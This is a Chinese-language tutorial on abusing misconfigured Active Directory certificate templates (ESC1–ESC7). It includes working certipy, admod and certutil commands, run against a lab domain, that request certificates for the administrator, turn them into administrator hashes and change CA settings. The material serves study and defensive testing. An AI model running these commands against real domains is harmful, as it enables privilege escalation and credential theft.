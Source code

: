 # ESC1-ECS7 证书模板配置错误

系统默认配置的证书模板中，只有机器模板出现了漏洞，也就是 CVE-2022-26923，此漏洞允许我们控制申请到的证书的 **Subject Alternative Name（SAN，主题备用名称扩展）**值，导致此证书可以代表其他用户进行 PKINIT kerberos 身份验证。

生产场景中，也可能出现人为配置的证书模板，人为配置的模板也可能会出现漏洞，这些由模板配置错误而产生的漏洞都归类到了 ESC 系列，ESC 系列有 11 种存在漏洞的模板。

### ESC1：证书模板允许请求用户在 CSR 指定 SAN

ESC1 和 CVE-2022-26923 比较相似，只不过 ESC1 是直接通过编辑 CSR 中的 SAN 值，而 CVE-2022-26923 是通过修改机器用户的 dNSHostName 属性来控制 SAN 值。

存在 ESC1 的模板属性存在 4 个如下条件：

1. 扩展选项中包含客户端认证，以支持 PKINIT kerberos 认证。
2. 安全选项中给域用户注册权限。
3. 使用者名称被设置为在请求中提供。
4. 证书模板未设置批准程序，以确保注册证书不会被挂起来等待管理员批准。

当使用请求到的证书进行 PKINIT kerberos 身份验证时，kdc 将 SAN 指定的 UPN 映射到目标用户，并返回目标用户的 tgt 和 st。

##### 漏洞利用

1. 查找存在漏洞的证书模板。

```
# 查找存在漏洞的证书模板，certipy 将有漏洞的证书记录在 txt 文件下。
certipy find -vulnerable -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21
```

![image-20250214125148285](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214125148285.png)

2. 申请 ESC1 模板证书，并指定 SAN 为管理员。

```
# 提供 deandean 用户账号密码，修改 SAN 为 HACK\administrator，申请证书。
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template ESC1 -upn administrator@HACK.com

# 认证获得 administrator 的 hash
certipy auth -pfx administrator.pfx -dc-ip 192.168.72.21
```

![image-20250214125223646](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214125223646.png)

### ESC2：证书模板定义的 EKU 类型为“任何目的”或“无”

存在 ESC2 的模板属性存在如下条件：

1. 安全选项中给域用户注册权限。
2. 证书模板未设置批准程序，以确保注册证书不会被挂起来等待管理员批准。
5. 证书模板定义了 “任何目的” 类型的 EKU 或 “无” 类型的 EKU。
   - “任何目的” 类型：此 EKU 指证书可以用于任何目的。
   -  “无” 类型：此 EKU 指该证书没有 EKU，相当于从属 CA 的证书。

##### 漏洞利用

1. 查找存在漏洞的证书模板。

```
# 查找存在漏洞的证书模板，certipy 将有漏洞的证书记录在 txt 文件下。
certipy find -vulnerable -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21
```

2. 使用 ESC2 证书给自己颁发 administrator 证书。

```
# 申请 ESC2 证书
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template ESC2

# 使用 ESC2 证书作为从属 CA 证书，为我们颁发 administrator 证书。
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template User -on-behalf-of "HACK\administrator" -pfx deandean.pfx

# 认证获得 administrator 的 hash
certipy auth -pfx administrator.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250214130403211](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214130403211.png)

### ESC3：滥用 ”证书代理申请“ 的EKU

证书代理申请 EKU 允许一个用户或实体（代理）代表另一个用户提交证书请求。这种设置通常用于需要跨用户申请证书的场景，例如在某些自动化流程或委派场景下，管理员或服务账户可以代表普通用户申请证书。配置的话不多说，1.用户能申请。2.有证书代理申请的扩展。

##### 漏洞利用

1. 查找存在漏洞的证书模板。

```
# 查找存在漏洞的证书模板，certipy 将有漏洞的证书记录在 txt 文件下。
certipy find -vulnerable -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21
```

2. 使用 ESC3 代理申请 administrator 证书。

```
# 申请 ESC3 模板的证书
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template ESC3

# 以 ESC3 模板的证书为 administrator 用户申请证书
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template User -on-behalf-of "HACK\administrator" -pfx deandean.pfx

# 认证获得 administrator 的 hash
certipy auth -pfx administrator.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250214131436076](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214131436076.png)

### ESC4：普通用户能修改证书模板

普通用户将此证书模板修改为其他能攻击的证书模板，如：ESC1，然后使用 ESC1 的思路进行漏洞利用。

##### 漏洞利用

1. 通过 AdMod 在模板对象的 mspki-certificate-name-flag 属性中启用 CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 标志，以启用使用者名称在请求中提供的设置

```
admod -b "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=HACK,DC=com" "msPKI-Certificate-Name-Flag::1"
```

2. ESC1 漏洞利用手法。

### ESC5：其他攻击手段

范围较广。

- CA 服务器的 AD 计算机对象（即通过 S4U2Self 或 S4U2Proxy 进行攻击） 。
- CA服务器的 RPC/DCOM 服务器 。
- 容器中的任何子 AD 对象或容器 CN=Public Key Services,CN=Services,CN=Configuration,DC=,DC=例如， 证书模板容器、证书颁发机构容器、 NTAuthCertificates 对象、注册服务容器等）。

### ESC6：CA启用 EDITF_ATTRIBUTESUBJECTALTNAME2 标志

效果与 ESC1 类似，这个标志允许请求者在所有证书上指定任意 SAN，而不管证书模板的配置。

启用此标志流程：

1. ADCS 服务器上执行以下命令并重启 CertSvc 服务（这将在注册表项\CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy 的 EditFlags 键中设置 EDITF_ATTRIBUTESUBJECTALTNAME2 值）

```
#设置
certutil -config "DC01.HACK.com\HACK-DC01-CA" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2

#删除
certutil -config "DC01.HACK.com\HACK-DC01-CA" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```

​	2. 查看此标志是否启用

```
certutil -config "DC01.HACK.com\HACK-DC01-CA" -getreg "policy\EditFlags"
```

​	3. 漏洞利用（和 ESC1 一样）。

### ESC7：攻击者提权到了 CA 管理员

- CA 管理员具有 “管理 CA” 的权限，可以启用任意的证书模板。
- 证书管理员具有 ”颁发和管理证书“ 的权限，可以针对任意的证书请求进行允许或拒绝。

漏洞利用：

1. 以 CA 管理员权限启用 **子从属 CA 的证书模板**，此模板如果对外开放将造成 ESC2 和 ESC3 攻击。
2. 以证书管理员权限针对普通域用户申请的注册进行允许（默认域用户申请 **子从属 CA 证书模板** 不被允许）

```
# 现在 deandean 是 CA 管理员

# 将 deandean 添加到证书管理员以允许管理证书
certipy ca -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -add-officer deandean

# 启用子从属 CA 的证书模板
certipy ca -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -enable-template SubCA

# 申请 SubCA 模板证书
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template SubCA

# 以 SubCA 模板的证书为 administrator 用户申请证书
certipy req -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -template User -on-behalf-of "HACK\administrator" -pfx deandean.pfx

# 如果证书被挂起，处理挂起的证书
certipy ca -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -issue-request [请求id]
certipy ca -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target-ip 192.168.72.21 -ca HACK-DC01-CA -retrieve [请求id]

certipy auth -pfx administrator.pfx -dc-ip 192.168.72.21
```

![image-20250214140733103](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214140733103.png)
